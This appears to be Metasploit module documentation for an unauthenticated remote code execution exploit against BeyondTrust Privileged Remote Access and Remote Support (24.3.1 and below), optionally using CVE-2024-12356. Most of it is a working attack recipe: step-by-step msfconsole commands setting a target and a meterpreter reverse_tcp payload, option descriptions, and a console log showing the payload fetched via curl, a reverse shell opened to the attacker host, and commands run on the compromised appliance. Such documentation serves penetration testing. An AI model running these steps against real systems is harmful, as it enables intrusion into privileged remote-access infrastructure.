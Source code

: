 ## Vulnerable Application
This exploit achieves unauthenticated remote code execution against BeyondTrust Privileged Remote
Access (PRA) and Remote Support (RS), with the privileges of the site user of the targeted BeyondTrust
product site. This exploit targets PRA and RS versions `24.3.1` and below.

## Testing
This exploit was tested against a vulnerable BeyondTrust Remote Support target running version `24.1.2`. To install
a virtual appliance, follow [this documentation](https://docs.beyondtrust.com/rs/docs/va-install). You will first need
to acquire the relevant software packages.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/beyondtrust_rce_cve_2024_12356`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `set LPORT 4444`
7. `check`
8. `exploit`

## Options

### TargetCompanyName
If set, use this name value to identify the company name of the deployed site (e.g. `mytestcompany`).
By default, this is auto discovered.

### TargetServerFQDN
If set, use this FQDN value to identify the FQDN of the deployed site (e.g. `support.mytestcompany.com`).
By default, this is auto discovered.

### LeverageCVE_2024_12356
By default, this exploit does not leverage the argument injection vulnerability CVE-2024-12356. Enabling this
option will cause this exploit to leverage CVE-2024-12356.

## Scenarios

### Default

```
msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > show options 

Module options (exploit/linux/http/beyondtrust_rce_cve_2024_12356):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.105   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                       html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      usKuEPuSzgnx     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > check
[*] 192.168.86.105:443 - The target appears to be vulnerable. Detected version 24.1.2
msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > exploit
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 24.1.2
[*] Using company name: mytestcompany
[*] Sending stage (3045380 bytes) to 192.168.86.105
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.105:10104) at 2025-01-31 10:51:38 +0000

meterpreter > getuid
Server username: mytestcompany
meterpreter > sysinfo
Computer     : 192.168.86.105
OS           : Gentoo 2.14 (Linux 6.1.76-bt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

